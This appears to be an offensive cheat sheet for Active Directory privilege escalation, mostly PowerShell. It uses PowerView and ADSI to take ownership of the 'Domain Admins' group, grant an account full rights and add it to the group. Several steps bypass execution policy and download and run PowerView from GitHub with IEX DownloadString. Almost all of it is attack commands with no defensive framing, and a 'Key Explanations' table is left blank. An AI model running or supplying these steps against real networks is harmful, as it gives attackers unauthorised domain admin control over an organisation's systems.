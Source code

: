 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
# Now try the command again
```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

--------------------------------------------------------------------------------------------------------
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()

# 2. Add self to group
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView

. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose